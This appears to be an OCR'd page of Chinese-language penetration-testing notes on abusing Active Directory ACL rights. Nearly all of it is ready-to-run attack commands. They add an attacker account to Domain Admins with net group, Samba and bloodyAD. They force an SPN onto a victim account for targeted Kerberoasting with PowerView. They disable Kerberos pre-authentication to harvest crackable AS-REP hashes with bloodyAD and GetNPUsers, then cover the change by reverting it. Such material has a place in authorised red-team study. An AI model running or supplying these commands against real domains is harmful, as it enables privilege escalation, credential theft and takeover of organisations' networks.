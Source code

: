	使用ADACLScanner检查用户的 ACL
	https://github.com/canix1/ADACLScanner
	>ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
	GenericAll on User : 可以在不知道当前密码的情况下重置用户密码
	GenericAll on Group：允许将自己（攻击者）添加到 Domain Admin 组
	在 Windows 上：net group "domain admins" hacker /add /domain
	在 Linux 上：
	使用 Samba 软件套件
	>net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
	使用bloodyAD
	>bloodyAD.py --host [DC IP] -d DOMAIN -u hacker -p MyPassword123 addObjectToGroup UserToAdd 'GROUP NAME'
  #### GenericAll/GenericWrite：我们可以在目标帐户上设置一个SPN，请求一个 TGS，然后获取它的哈希并对其进行 kerberoast
	检查帐户权限
	>Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
	检查当前用户是否已经设置了 SPN
	PowerView2 > Get-DomainUser -Identity <UserName> | select serviceprincipalname
	强制在账户上设置 SPN：Targeted Kerberoasting
	PowerView2 > Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
	PowerView3 > Set-DomainObject -Identity <UserName> -Set @{serviceprincipalname='any/thing'}
	获取票据
	PowerView2 > $User = Get-DomainUser username 
	PowerView2 > $User | Get-DomainSPNTicket | fl
	PowerView2 > $User | Select serviceprincipalname
	移除SPN
	PowerView2 > Set-DomainObject -Identity username -Clear serviceprincipalname
  #### GenericAll/GenericWrite：我们可以将受害者的userAccountControl更改为不需要 Kerberos 预身份验证，获取用户的可破解 AS-REP，然后将设置更改回来。
	Windows 上
	修改userAccountControl
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
	获取票据
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	ASREPRoast > Get-ASREPHash -Domain domain.local -UserName username
	改回修改userAccountControl
	PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
	PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
	Linux 上
	修改userAccountControl
	>bloodyAD.py --host [DC IP] -d DOMAIN -u AttackerUser -p MyPassword setDontReqPreauthFlag target_user
	获取票据
	>GetNPUsers.py DOMAIN/target_user -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	改回修改userAccountControl
	>bloodyAD.py --host [DC IP] -d DOMAIN -u AttackerUser -p MyPassword setDontReqPreauthFlag target_user false